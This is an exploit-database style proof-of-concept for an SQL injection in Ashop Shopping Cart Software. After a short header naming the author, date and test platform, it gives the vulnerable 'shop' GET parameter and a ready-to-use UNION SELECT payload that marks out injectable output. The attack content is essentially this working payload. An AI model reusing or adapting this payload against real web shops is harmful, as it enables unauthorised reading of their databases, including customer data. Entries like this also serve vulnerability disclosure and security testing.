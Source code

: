 POC
---

    # Exploit Title: Ashop Shopping Cart Software - SQL Injection
    # Date: 03.03.2019
    # Exploit Author: Ahmet Ümit BAYRAM
    # Vendor Homepage: http://www.ashopsoftware.com
    # Software Link: https://sourceforge.net/projects/ashop/
    # Demo Site: http://demo.ashopsoftware.com/
    # Version: Lastest
    # Tested on: Kali Linux
    # CVE: N/A

    ----- PoC: SQLi -----

    Request: http://localhost/[PATH]/index.php?cat=1&exp=&shop=1
    Vulnerable Parameter: shop (GET)
    Payload: cat=1&exp=&shop=-5438') UNION ALL SELECT
    CONCAT(0x71786b6a71,0x6357557777645143654a726369774c4167665278634a46617758614d66506b46434f4b7669565054,0x716a787671),NULL--
    fmIb
